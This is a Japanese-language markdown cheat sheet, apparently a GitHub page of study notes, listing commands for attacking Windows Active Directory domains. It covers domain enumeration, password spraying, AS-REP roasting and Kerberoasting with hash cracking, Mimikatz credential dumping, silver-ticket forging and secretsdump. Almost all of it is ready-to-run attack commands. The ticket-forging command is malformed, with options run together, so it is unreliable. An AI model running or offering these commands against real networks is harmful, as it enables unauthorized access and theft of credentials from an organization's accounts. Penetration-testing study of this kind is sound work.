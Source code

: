 ## 目次
1. [Enumeration](#enumeration)
2. [Powerview](#powerview)
3. [Bloodhound](#bloodhound)
4. [PsLoggedon](#psloggedon)
5. [Password Spraying](#password-spraying)
6. [AS-REP Roasting](#as-rep-roasting)
7. [Kerberoasting](#kerberoasting)
8. [Silver Tickets](#silver-tickets)
9. [Secretsdump](#secretsdump)

## Enumeration
ドメインに参加しているマシンでローカル管理者を確認する:
```bash
net localgroup Administrators
```
---

## Powerview
```bash
Import-Module .\PowerView.ps1 # PowerShellでモジュールをロード、エラーが発生した場合は実行ポリシーを変更
Get-NetDomain # ドメインの基本情報を取得
Get-NetUser # ドメイン内のすべてのユーザーをリスト
```
- 上記コマンドの出力は、`select`コマンドを使用してフィルタリングできます。たとえば、`Get-NetUser | select cn`のように、`cn`は出力のサブヘッダーです。

```markdown
Get-NetGroup # ドメイングループを列挙
Get-NetGroup "group name" # 特定グループの情報を取得
Get-NetComputer # ドメイン内のコンピュータオブジェクトを列挙
Find-LocalAdminAccess # 現在のユーザーがドメイン内の任意のコンピュータに管理者権限を持っているかどうかをスキャン
Get-NetSession -ComputerName files04 -Verbose # Get-NetSessionでログオン中のユーザーを確認、詳細情報を追加
Get-NetUser -SPN | select samaccountname,serviceprincipalname # ドメイン内のSPNアカウントをリスト
Get-ObjectAcl -Identity <user> # ACE(アクセス制御エンティティ)を列挙し、SID(セキュリティ識別子)をリスト
Convert-SidToName <sid/objsid> # SID/ObjSIDを名前に変換

# 特定グループに対する「GenericAll」権限をチェック。取得後、convert-sidtonameを使用して変換可能
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-DomainShare # ドメイン内の共有を検索

Get-DomainUser -PreauthNotRequired -verbose # AS-REP Roastingの対象となるアカウントを特定

Get-NetUser -SPN | select serviceprincipalname # Kerberoastingの対象となるアカウント
---
```

## Bloodhound
### Collection methods - database

```bash
# Sharphound - sharphound.ps1を侵害されたマシンに転送
Import-Module .\Sharphound.ps1 
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" # 指定された詳細で収集し、出力がWindowsマシンに保存される

# Bloodhound-Python
bloodhound-python -u 'uname' -p 'pass' -ns <rhost> -d <domain-name> -c all # 出力はKaliマシンに保存される
```

### Bloodhoundの実行
```bash
sudo neo4j console
```
- 次に取得した.jsonファイルをアップロードします。
---

## PsLoggedon
### ドメインのリモートシステムでのユーザーログオンを見る (外部ツール)
```bash
.\PsLoggedon.exe \\<computername>
```
---

## Password Spraying
### Crackmapexec - 出力に「Pwned!」と表示されるか確認
```bash
crackmapexec smb <IPまたはサブネット> -u users.txt -p 'pass' -d <domain> --continue-on-success # サブネットの場合、continue-on-successオプションを使用
```

### Kerbrute
```bash
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```
---

## AS-REP Roasting
### AS-REP Roastingの対象となるアカウントのハッシュを取得、Kali Linuxから実行
```bash
.\Rubeus.exe asreproast /nowrap
# 侵害されたWindowsホストからダンプ
```

```bash
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### ハッシュのクラック
```bash
hashcat -m 18200 hashes.txt wordlist.txt --force
```
---

## Kerberoasting
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast # 侵害されたWindowsホストからダンプし、カスタム名で保存
```

```bash
impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request # Kaliマシンから実行
```

```bash
hashcat -m 13100 hashes.txt wordlist.txt --force # ハッシュのクラック
```
---

## Silver Tickets
### Mimikatzを使用してSPNユーザーのハッシュを取得
```bash
privilege::debug
sekurlsa::logonpasswords # ここでSPNアカウントのNTLMハッシュを取得
```

#### ドメインSIDの取得
```bash
ps>whoami /user
# ログインしているユーザーのSIDを取得。ユーザーのSIDが "S-1-5-21-1987370270-658905905-1781884369-1105" の場合、ドメインSIDは "S-1-5-21-1987370270-658905905-1781884369"
```

#### Silver Ticketの偽造 (Mimikatz)
```bash
kerberos::golden /sid:<domainSID>/domain:<domain-name>/ptt /target:<targetsystem.domain>/service:<service-name>/rc4:<NTLM-hash>/user:<new-user>exit
```

#### チケットの確認
```bash
ps>klist
```

### サービスへのアクセス
```bash
ps> iwr -UseDefaultCredentials <servicename>://<computername>
```
---

## Secretsdump
```bash
secretsdump.py <domain>/<user>:<password>@<IP>
```

## サイト
- ＡＤの攻撃情報
https://wadcoms.github.io/#